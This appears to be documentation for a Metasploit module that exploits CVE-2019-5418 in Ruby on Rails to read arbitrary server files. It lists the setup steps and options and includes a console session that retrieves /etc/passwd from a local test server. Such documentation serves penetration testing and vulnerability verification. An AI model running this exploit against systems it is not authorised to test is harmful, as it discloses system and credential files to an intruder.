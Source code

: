 ## Vulnerable Application

  Ruby on Rails versions <= 5.2.2. The following example shows how to recreate the vulnerable environment on Linux:

  https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/

## Verification Steps

  1. Start a Rails server using a vulnerable version 
  2. Start msfconsole
  3. Do: ```use auxiliary/gather/rails_doubletap_file_read```
  4. Do: ```set ROUTE /your_route```
  5. Do: ```set RHOSTS target```
  6. Do: ```set TARGET_FILE /absolute/path/to/remote/file.txt```
  7. Do: ```run```
  8. If everything goes smoothly, you should get the contents of the remote file printed to the console.


## Options

### ROUTE

  This is a web path or "route" on the vulnerable server. Since the vulnerability lies within the PathResolver of Rails, the route should be in the server's routes.rb file. 

### TARGET_FILE

  This is the file to be read on the remote server. This *must* be an absolute path (eg. /etc/passwd).

## Advanced Options

  **SKIP_CHECK**
  
  This options skips the initial vulnerability check and continues thinking the server is vulnerable. 

## Scenarios

### Version of software and OS as applicable


  ```
msf > use auxiliary/gather/rails_doubletap_file_read
msf auxiliary(gather/rails_doubletap_file_read) > options

Module options (auxiliary/gather/rails_doubletap_file_read):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   ROUTE        /msf             yes       A route on the vulnerable server.
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILE  /etc/passwd      yes       The absolute path of remote file to read.
   VHOST                         no        HTTP server virtual host

msf auxiliary(gather/rails_doubletap_file_read) > set RHOSTS localhost
RHOSTS => localhost
msf auxiliary(gather/rails_doubletap_file_read) > set RPORT 8000
RPORT => 8000
smsf auxiliary(gather/rails_doubletap_file_read) > set ROUTE /demo
ROUTE => /demo
msf auxiliary(gather/rails_doubletap_file_read) > run
[*] Running module against 127.0.0.1

[+] Target is vulnerable!
[*] Requesting file /etc/passwd
[+] Response from server:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...snip...
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
postgres:x:105:112:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

[*] Auxiliary module execution completed  
```
